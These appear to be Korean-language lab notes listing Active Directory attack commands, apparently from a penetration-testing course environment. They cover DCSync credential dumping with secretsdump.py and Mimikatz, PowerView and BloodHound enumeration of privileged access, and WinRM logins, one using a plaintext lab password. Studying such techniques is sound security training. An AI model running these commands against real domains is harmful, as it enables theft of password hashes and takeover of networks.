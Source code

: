 ```
### 정리 작업 1 - adunn 계정으로 Fake SPN 제거
```Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose```

### 정리 작업 2 - Help Desk Level 1 Group에서 damundsen 제거
```Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose```

### 정리 작업 3 - Help Desk Level 1 Group에서 damundsen 제거 여부 확인
```Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose```

<br/><br/>
## 3. DCSync

### Get-DomainUser를 사용하여 adunn의 Group Membership 확인
```Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl```

### Get-ObjectAcl를 사용하여 adunn의 Replication 권한 확인
```
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### secretsdump.py를 사용하여 NTLM 해시 및 Kerberos 키 추출
```secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5```<br/>
- NTLM 해시 : ```-just-dc-ntlm 플래그```<br/>
- 특정 사용자 : ```-just-dc-user <USERNAME> 플래그```<br/>
- 비밀번호 마지막 변경시기 : ```-pwd-last-set 플래그```<br/>
- 비밀번호 크래킹 보충 데이터 : ```-history 플래그```<br/>
- 비활성화 사용자 확인 : ```-user-status 플래그```

### Get-ADUser를 사용하여 추가 열거 (Reversible 암호화(RC4) 계정)
```Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl```

### Get-DomainUser를 사용하여 Reversible 암호화(RC4) 계정 체크
```Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol```

### Mimikatz로 DCSync 공격 수행
```
runas /netonly /user:INLANEFREIGHT\adunn powershell
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

<br/><br/>
## 4. Privileged Access

### Remote Desktop Users Group 열거
```Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"```

### Remote Management Users Group 열거
```Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"```

### BloodHound로 원격 권한 사용자 확인 (화면 하단 Raw Query)
```MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2```

### Windows에서 WinRM Session 연결
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

### Linux에서 Evil-WinRM을 사용하여 연결
```evil-winrm -i 10.129.201.234 -u forend```
```
